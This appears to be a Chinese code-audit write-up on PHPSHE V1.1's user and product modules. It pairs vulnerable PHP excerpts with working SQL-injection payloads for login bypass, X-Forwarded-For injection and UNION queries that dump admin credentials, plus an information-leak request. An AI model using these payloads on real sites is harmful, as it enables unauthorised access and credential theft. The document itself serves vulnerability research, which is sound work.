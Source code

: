## **PHPSHE V1.1 （三）**

### **user.php**
接下來，我們來看看`user`模塊。

```php
//Line:10

case 'login':
    if (isset($_p_pesubmit)) {
        $_p_info['user_pw'] = md5($_p_info['user_pw']);
        if ($info = $db->pe_select('user', $_p_info)) {
```

亮點在這裡`if ($info = $db->pe_select('user', $_p_info)) {`，只要$info不為空就成功登入了。
<br >
簡單來一發萬能密碼,用戶名：`' or 1=1-- -`，密碼隨意就ok了


### **【Bug 0x09: SQL注入 任意用戶登入】**

URL:

`/index.php?mod=user&act=login`

DATA:
```
info%5Buser_name%5D=1' or 1=1-- -
&info%5Buser_pw%5D=123456
&pesubmit=
```

繼續看
```php
//Line:168

case 'base':
    if (isset($_p_pesubmit)) {
        if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {
            pe_success('基本訊息修改成功！');
        }
        else {
            pe_error('基本訊息修改失敗...');
        }
    }
    $info = $db->pe_select('user', array('user_id'=>$_s_user_id));

    $seo = pe_seo($menutitle='基本訊息');
    include(pe_tpl('user_base.html'));
```

亮點在`if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {`。<br>
我們跟進`pe_dbhold()`函數

```php
//Line:30

//資料庫安全
function pe_dbhold($str, $exc=array())
{
    if (is_array($str)) {
        foreach($str as $k => $v) {
            $str[$k] = in_array($k, $exc) ? pe_dbhold($v, 'all') : pe_dbhold($v);
        }
    }
    else {
        $str = $exc == 'all' ? mysql_real_escape_string($str) : mysql_real_escape_string(htmlspecialchars($str));
    }
    return $str;
}
```

此處對陣列的值進行了過濾，但是對陣列的鍵沒有處理。
<br >
我們跟進`pe_update()`函數


```php
public function pe_update($table, $where, $set)
{
    //處理設置語句
    $sqlset = $this->_doset($set);
    //處理條件語句
    $sqlwhere = $this->_dowhere($where);
    return $this->sql_update("update `".dbpre."{$table}` {$sqlset} {$sqlwhere}");    
}
```

同 **【Bug 0x06】**一樣，經過`_dowhere()`處理、一樣可以對其進行注入。
```【Bug 0x09: SQL注入 獲取任意資料庫數據】```
URL:
```/index.php?mod=user&act=base```

DATA:
```info%5Buser_address`%3D(select concat(0x7e,admin_name,0x7e,admin_pw,0x7e) from pe_admin limit 1) , `user_tname%5D=1```


**product.php**
第一個操作**商品諮詢**就可能存在一個小BUG。

```php
//Line:5

case 'askadd':
    if (isset($_p_pesubmit)) {
        ...
        $info['ask_text'] = pe_texthtml(pe_dbhold($_p_ask_text));
        ...
        $info['user_ip'] = pe_ip();
        if ($db->pe_insert('ask', $info)) {
            ...
            $info['ask_text'] = htmlspecialchars($_p_ask_text);
```


## **【Bug 0x10: 訊息洩漏 Warning】**
POST:
```/index.php?mod=product&act=askadd&id=1```
<br>
DATA:
```ask_text[]=asfasdfasfs&pesubmit=true```
<br>

錯誤訊息
```
Warning: nl2br() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\include\function\global.func.php
Warning: htmlspecialchars() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\module\index\product.php
```

然後還有一個亮點`$info['user_ip'] = pe_ip();`，我們跟進`pe_ip()`函數

```php
//Line : 333

//獲取IP
function pe_ip()
{
    if (isset($_SERVER)){
        if (isset($_SERVER["HTTP_X_FORWARDED_FOR"])){
            $realip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    ...
    return $realip;
```

明顯的XFF注入。只要在寫入資料庫的時候用到了這個函數獲取IP的地方、、都是一樣的注入。

### **【Bug 0x11: SQL注入 獲取任意資料庫數據】**
POST:
<br>
```/index.php?mod=product&act=askadd&id=1```
x-forwarded-for:
<br>
```1', `ask_replytext` = (select concat(0x7e,admin_name,0x7e,admin_pw,0x7e)  from pe_admin limit 1)#```

返回的訊息在商品、賣家回覆裏。
<br >
再往下看，在`商品列表`操作中、又是一個大大的BUG出現了。

```php
//Line:83

case 'list':
    ...
    $_g_keyword && $sqlwhere .= " and `product_name` like '%{$_g_keyword}%'";
    ...
    $info_list = $db->pe_selectall('product', $sqlwhere, '*', array(16, $_g_page));
```

WHERE條件帶入了未經過濾的`$_g_keyword`變數。
<br>
### **【Bug 0x12: SQL注入 獲取任意資料庫數據】**
URL:
```php
/index.php?mod=product&act=list&id=1&keyword=%' union select 1,admin_pw,1,1,1,admin_name,1,1,1,1,1,1,1,1,1,1,1,1,1 from pe_admin-- -
```